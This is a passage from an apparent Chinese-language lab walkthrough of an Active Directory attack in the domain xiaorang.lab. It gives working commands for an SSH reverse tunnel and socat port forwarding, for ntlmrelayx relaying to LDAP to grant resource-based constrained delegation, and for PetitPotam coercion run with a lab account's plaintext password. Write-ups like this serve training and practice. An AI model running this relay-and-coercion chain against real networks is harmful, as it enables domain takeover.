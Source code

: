 需要注意的是

**由于 SSH 的反向端口在转发监听的时候只会监听 127.0.0.1，所以这里需要稍微改动**

即使反向在转发 79 端口指定监听全部，端口 79 仍绑定在`127.0.0.1`。

因此我们可以多加一条，将流量`0.0.0.0:80`转发到`127.0.0.1:79`，再反向转发回客户端本地的 80，变相使得 80 监听在`0.0.0.0`

```plain
ssh -i id_rsa root@39.99.243.184 -D SOCKS 代理 IP:PORT -R \*:79:127.0.0.1:80
nohup socat TCP-LISTEN:80,fork,bind=0.0.0.0 TCP:localhost:79 &
```

接下来本地开启`ntlmrelayx`，利用前面抓到的`XR-Desktop`作为恶意账户设置 RBCD

```plain
proxychains python3 ntlmrelayx.py -t ldap://172.22.11.6 --no-dump --no-da --no-acl --escalate-user 'xr-desktop$' --delegate-access
```

[![](assets/1705989181-c256007c547ae0a1ea0db86706f0572b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170110-c975b5bc-b904-1.png)

接着使用`PetitPotam`触发`XR-LCM3AE8B`强制认证到`172.22.11.26`

```plain
proxychains python3 PetitPotam.py -u yangmei -p 'xrihGHgoNZQ' -d xiaorang.lab ubuntu@80/pwn.txt 172.22.11.26
```
